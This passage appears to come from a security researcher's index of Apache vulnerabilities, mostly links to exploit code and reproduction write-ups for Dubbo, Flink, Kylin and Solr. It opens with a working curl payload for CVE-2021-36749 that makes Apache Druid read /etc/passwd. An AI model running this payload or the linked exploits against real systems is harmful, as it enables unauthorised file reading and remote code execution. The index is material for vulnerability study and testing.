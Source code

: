 CVE-2021-36749

```sh
curl http://127.0.0.1:8888/druid/indexer/v1/sampler?for=connect -H "Content-Type:application/json" -X POST -d "{\"type\":\"index\",\"spec\":{\"type\":\"index\",\"ioConfig\":{\"type\":\"index\",\"firehose\":{\"type\":\"http\",\"uris\":[\" file:///etc/passwd \"]}},\"dataSchema\":{\"dataSource\":\"sample\",\"parser\":{\"type\":\"string\", \"parseSpec\":{\"format\":\"regex\",\"pattern\":\"(.*)\",\"columns\":[\"a\"],\"dimensionsSpec\":{},\"timestampSpec\":{\"column\":\"no_ such_ column\",\"missingValue\":\"2010-01-01T00:00:00Z\"}}}}},\"samplerConfig\":{\"numRows\":500,\"timeoutMs\":15000}}"
```

## Apache Dubbo

[Apache Dubbo (CVE-2023-23638)漏洞利用的工程化实践](https://github.com/YYHYlh/Apache-Dubbo-CVE-2023-23638-exp)

## Apache Flink

[CVE-2020-17518&17519：Flink两个漏洞复现](https://mp.weixin.qq.com/s/9xLQ1YAWVtHBv9qVk-Xc1A)

[漏洞复现|Apache Flink(CVE-2020-17519)漏洞分析](https://mp.weixin.qq.com/s/6Z7ilX_bwSBU8EWfStAc5w)

## Apache Kylin

[CVE-2021-45456 apache kylin命令执行](https://github.com/Awrrays/Awrrays-Team-VulLab/blob/main/Middleware/apache/Apache Kylin/CVE-2021-45456.md)

## Apache Solr

[Solr RCE 整理](https://github.com/Imanfeng/Apache-Solr-RCE)

[Apache Solr 注入研究](https://github.com/veracode-research/solr-injection) 

[Apache solr XML 实体注入漏洞 (CVE-2017-12629)](https://vulhub.org/#/environments/solr/CVE-2017-12629-XXE/)

[Apache Solr 远程命令执行漏洞 (CVE-2017-12629)](https://vulhub.org/#/environments/solr/CVE-2017-12629-RCE/)

https://github.com/mpgn/CVE-2019-0192/

[Apache Solr 远程命令执行漏洞 (CVE-2019-0193)](https://vulhub.org/#/environments/solr/CVE-2019-0193/)

[Apache Solr DataImportHandler 远程代码执行漏洞(CVE-2019-0193) 分析](https://paper.seebug.org/1009/)

[jas502n/CVE-2019-0193](https://github.com/jas502n/CVE-2019-0193)

[Apache Solr不安全配置远程代码执行漏洞复现及jmx rmi利用分析](https://mp.weixin.qq.com/s/P626BC3-JcBc3ewdlslO2w)

[jas502n/CVE-2019-12409](https://github.com/jas502n/CVE-2019-12409)

[Apache Solr最新漏洞复现](https://xz.aliyun.com/t/6679)

[Microsoft Apache Solr RCE Velocity Template | Bug Bounty POC](https://blog.securitybreached.org/2020/03/31/microsoft-rce-bugbounty/)

[Apache Solr Velocity RCE 真的getshell了吗?](https://www.hayasec.me/2019/11/06/apache-solr-velocity-rce-getshell/)
